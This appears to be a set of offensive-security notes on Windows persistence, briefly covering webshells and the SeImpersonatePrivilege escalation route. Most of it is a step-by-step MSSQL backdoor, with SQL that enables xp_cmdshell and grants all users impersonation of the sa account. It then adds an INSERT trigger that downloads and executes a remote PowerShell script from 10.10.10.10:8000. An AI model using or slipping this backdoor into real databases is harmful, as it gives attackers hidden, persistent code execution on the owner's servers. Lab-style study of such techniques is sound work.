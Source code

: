 # WebShells
A webshell consists of a file uploaded to a webserver that will run using the same permissions as the configured user. 

On windows systems we can use `iis apppool\defaultapppool` which is an unprivileged account, but has the special `SeImpersonatePrivilege` which will give us an easy way to escalate to Admin.

Once we upload the file, give it the right permissions we should be able to view the webshell at the server address.

# MSSQL as Backdoor
MSSQL uses triggers that allow you to bind actions to be performed when specific events occur in the database.

1. Open up `Microsoft SQL Server Management Studio`
2. Create a New Query
3. Run the following SQL 
```sh
sp_configure 'Show Advanced Options', 1;
RECONFIGURE;
GO

sp_configure 'xp_cmdshell',1;
RECONFIGURE;
GO
```
4. Impersonate the `sa` user which is the default database administrator. This will allow any user to access the `xp_cmdshell`
```sh
USE master
GRANT IMPERSONATE ON LOGIN::sa to [Public];
```
5. Configure a trigger to download and run a `.ps1` file and execute whenever an `INSERT` is made.
```sh
USE MYDB

CREATE TRIGGER [sql_backdoor]
ON MYDB.dbo.Users
FOR INSERT AS

EXECUTE AS LOGIN = 'sa'
EXEC master..xp_cmdshell 'Powershell -c "IEX(New-Object net.webclient).downloadstring(''http://10.10.10.10:8000/backdoor.ps1'')"';
```

